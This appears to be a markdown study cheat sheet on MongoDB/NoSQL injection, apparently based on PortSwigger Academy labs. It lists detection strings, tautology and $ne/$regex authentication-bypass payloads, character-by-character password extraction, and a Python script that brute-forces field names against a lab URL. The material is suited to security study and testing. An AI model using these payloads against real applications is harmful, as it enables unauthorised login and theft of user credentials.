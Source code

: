 
# Content
- [syntax injection](#syntax-injection)
  - [Detecting syntax injection](#Detecting-syntax-injection)
  - [Overriding existing conditions](#Overriding-existing-conditions)
  - [extract data](#extract-data)
- [NoSQL operator injection](#NoSQL-operator-injection)
  - [Submitting query operators](#submitting-query-operators)
  - [Extracting field names](#extracting-field-names)
  - [Exfiltrating data](#exfiltrating-data)

## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```
or 
```js
 db.users.find({ $expr: { $function: { body: function (name) {return name == <userInput>;}, args: ["$name"], lang: "js" } } })
```


#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

- Determining which characters are processed 
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

- Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
fizzy'||'1'=='1
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

#### **extract data**

to know some condtions 
```
admin' && this.password.match(/\d/) || 'a'=='b     => check if it has digits or no
```

check length
```
admin' && this.password.length < 30 || 'a'=='b
```

extract password
```
admin' && this.password[0] == 'a' || 'a'=='b
```

query in the backend
```js
db.users.find({$where : function(){ return this.name == "admin' && this.password[0] == 'a' || 'a'=='b' ; }}) ;
```





## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

**EX:** Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```
#### **Extracting field names**

test
```json
{"username":"wiener","password":"peter", "$where":"0"}
{"username":"wiener","password":"peter", "$where":"1"}
```
exploit : where `c` is charctar and `i` is index
```json
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^.{<i>}<c>.*')"}
```
query in the backend
```js
db.users.find({$where : function(){ return Object.keys(this)[1].match('^.{<i>}<c>.*')  }}) ;
```
automation script 
```pytnon
import requests 
from urllib.parse import quote
import string



success = 'Account locked' 
url = 'https://0ad800e004f9334a8010038800130094.web-security-academy.net/login' 




# Create a list containing a-zA-Z0-9
alphanumeric_characters = [char for char in string.ascii_letters + string.digits]



def doReq(i , c): 
    params ={"username":"carlos","password":{"$ne":"aaa"},"$where":'''Object.keys(this)[1].match('^.{{{}}}{}.*')'''.format(i,c,)}
    res = requests.post(url=url , json=params )
    return res.text 


filed = ""

for i in range(0,21):
    for c in alphanumeric_characters :    
         res = doReq(i,c)  
         if(success in res):
             filed = filed + c
             print(filed)
             continue
```

#### **Exfiltrating data**

For example:
```json
{"username":"myuser","password":"mypass"}
```
If the response to this request is different to the one you receive when you submit an incorrect password, this indicates that the application may be vulnerable
```json
{"username":"admin","password":{"$regex":"^.*"}}  
```
extract data
```json
{"username":"admin","password":{"$regex":"^a*"}}
```
